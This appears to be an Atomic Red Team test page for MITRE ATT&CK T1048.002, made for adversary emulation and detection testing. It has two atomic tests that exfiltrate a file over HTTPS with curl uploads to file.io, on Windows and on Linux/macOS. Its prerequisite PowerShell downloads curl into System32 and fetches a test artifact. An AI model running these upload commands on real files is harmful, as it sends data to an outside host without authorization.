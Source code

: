 ```yaml
---
tags: [T1048_002, atomic_test]
filename: "[[T1048.002|T1048.002 - Exfiltration Over Alternative Protocol - Exfiltration Over Asymmetric Encrypted Non-C2 Protocol]]"
---
```

# T1048.002 - Exfiltration Over Alternative Protocol - Exfiltration Over Asymmetric Encrypted Non-C2 Protocol

## Atomic Test #1 - Exfiltrate data HTTPS using curl windows
Exfiltrate data HTTPS using curl to file share site file.io

**Supported Platforms:** Windows


**auto_generated_guid:** 1cdf2fb0-51b6-4fd8-96af-77020d5f1bf0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_file | Test file to upload | path | PathToAtomicsFolder/T1048.002/src/artifact|
| curl_path | path to curl.exe | path | C:&#92;Windows&#92;System32&#92;Curl.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{curl_path} -k -F "file=@#{input_file}" https://file.io/
```




#### Dependencies:  Run with `powershell`!
##### Description: Curl must be installed on system.
##### Check Prereq Commands:
```powershell
if (Test-Path #{curl_path}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://curl.se/windows/dl-8.4.0_6/curl-8.4.0_6-win64-mingw.zip" -Outfile "PathToAtomicsFolder\..\ExternalPayloads\curl.zip"
Expand-Archive -Path "PathToAtomicsFolder\..\ExternalPayloads\curl.zip" -DestinationPath "PathToAtomicsFolder\..\ExternalPayloads\curl"
Copy-Item "PathToAtomicsFolder\..\ExternalPayloads\curl\curl-8.4.0_6-win64-mingw\bin\curl.exe" C:\Windows\System32\Curl.exe
```
##### Description: #{input_file} must be exist on system.
##### Check Prereq Commands:
```powershell
if (Test-Path "#{input_file}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{input_file}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1048.002/src/artifact" -OutFile "#{input_file}"
```




<br/>
<br/>

## Atomic Test #2 - Exfiltrate data HTTPS using curl freebsd,linux or macos
Exfiltrate data HTTPS using curl to file share site file.io

**Supported Platforms:** macOS, Linux


**auto_generated_guid:** 4a4f31e2-46ea-4c26-ad89-f09ad1d5fe01





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_file | Test file to upload | path | PathToAtomicsFolder/T1048.002/src/artifact|


#### Attack Commands: Run with `bash`! 


```bash
curl -F 'file=@#{input_file}' -F 'maxDownloads=1' -F 'autoDelete=true' https://file.io/
```






<br/>
